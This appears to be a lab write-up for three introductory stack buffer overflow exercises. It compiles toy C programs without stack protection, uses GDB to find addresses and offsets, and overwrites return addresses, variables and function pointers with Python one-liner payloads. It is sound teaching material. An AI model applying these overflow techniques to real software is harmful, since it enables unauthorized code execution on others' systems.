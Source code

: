 
### Lab 1 - BOF1, BOF2, and BOF3

---

#### **1. bof1.c**

##### *Setting up the run file:*
- Compile the file with the following command:
  ```bash
  $ gcc -g -o bof1.out bof1.c -mpreferred-stack-boundary=2 -fno-stack-protector
  ```

##### *Opening GDB and finding the address of `secretFunc()`:*
- Launch the binary in GDB:
  ```bash
  $ gdb bof1.out
  ```
- Disassemble `secretFunc()` to find its hexadecimal address:
  ```bash
  gdb-peda$ disas secretFunc
  ```
  - Example output:
    ```
    Dump of assembler code for function secretFunc:
    0x0804846b <+0>:     push   ebp
    0x0804846c <+1>:     mov    ebp,esp
    0x0804846e <+3>:     push   0x8048560
    0x08048473 <+8>:     call   0x8048320 <printf@plt>
    0x08048478 <+13>:    add    esp,0x4
    0x0804847b <+16>:    nop
    0x0804847c <+17>:    leave
    0x0804847d <+18>:    ret
    End of assembler dump.
    ```
  - The address of `secretFunc()` is `0x0804846b`.

##### *Calculating the buffer offset:*
- Find the distance between the buffer (`&array[0]`) and the return address (`$ebp+4`):
  ```bash
  gdb-peda$ p $ebp+4-&array[0]
  ```
  - Example output:
    ```
    $2 = 0xcc   # cc in HEX = 204 in DEC
    ```

##### *Exploiting the buffer overflow:*
- Run the program with a payload of 204 placeholder characters followed by the hexadecimal address of `secretFunc()`:
  ```bash
  $ python -c "print 'a'*204 + '\x6b\x84\x04\x08'" | ./bof1.out
  ```
- Expected output:
  ```
  Enter text: Congratulation!
  Segmentation fault
  ```

---

#### **2. bof2.c**

##### *Setting up the run file:*
- Compile the file with the following command:
  ```bash
  $ gcc -g -o bof2.out bof2.c -mpreferred-stack-boundary=2 -fno-stack-protector
  ```

##### *Opening GDB and finding addresses:*
- Launch the binary in GDB:
  ```bash
  $ gdb bof2.out
  ```
- Set a breakpoint at `main` and run the program:
  ```bash
  gdb-peda$ break main
  gdb-peda$ run
  ```

##### *Inspecting the addresses of `check` and `buf`:*
- Find the addresses of the `check` variable and `buf` array:
  ```bash
  gdb-peda$ x &check
  ```
  - Example output: `0xffffd734`
  
  ```bash
  gdb-peda$ x &buf
  ```
  - Example output: `0xffffd70c`

##### *Calculating buffer overflow distance:*
- The distance between `check` and `buf` is `0xffffd734 - 0xffffd70c = 0x28 = 40` bytes.

##### *Exploiting the buffer overflow:*
- Run the program with a payload of 40 placeholder characters followed by the address `0xdeadbeef` to overwrite the `check` variable:
  ```bash
  $ python -c "print 'a'*40 + '\xef\xbe\xad\xde'" | ./bof2.out
  ```
- Expected output:
  ```
  [buf]: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaﾭ
  [check]: 0xdeadbeef
  Yeah! You win!
  ```

---

#### **3. bof3.c**

##### *Setting up the run file:*
- Compile the file with the following command:
  ```bash
  $ gcc -g -o bof3.out bof3.c -mpreferred-stack-boundary=2 -fno-stack-protector
  ```

##### *Opening GDB and finding the address of `shell()`:*
- Launch the binary in GDB:
  ```bash
  $ gdb bof3.out
  ```
- Disassemble the `shell()` function to find its hexadecimal address:
  ```bash
  gdb-peda$ disas shell
  ```
  - Example output:
    ```
    Dump of assembler code for function shell:
    0x0804845b <+0>:     push   ebp
    0x0804845c <+1>:     mov    ebp,esp
    0x0804845e <+3>:     push   0x8048540
    0x08048463 <+8>:     call   0x8048330 <puts@plt>
    0x08048468 <+13>:    add    esp,0x4
    0x0804846b <+16>:    nop
    0x0804846c <+17>:    leave
    0x0804846d <+18>:    ret
    End of assembler dump.
    ```
  - The address of `shell()` is `0x0804845b`.

##### *Inspecting the addresses of `func` and `buf`:*
- Find the addresses of `func` and `buf`:
  ```bash
  gdb-peda$ x &func
  ```
  - Example output: `0xffffd734`
  
  ```bash
  gdb-peda$ x &buf
  ```
  - Example output: `0xffffd6b4`

##### *Calculating buffer overflow distance:*
- The distance between `func` and `buf` is `128` bytes.

##### *Exploiting the buffer overflow:*
- Run the program with a payload of 128 placeholder characters followed by the address of `shell()`:
  ```bash
  $ python -c "print 'a'*128 + '\x5b\x84\x04\x08'" | ./bof3.out
  ```
- Expected output:
  ```
  You made it! The shell() function is executed
  ```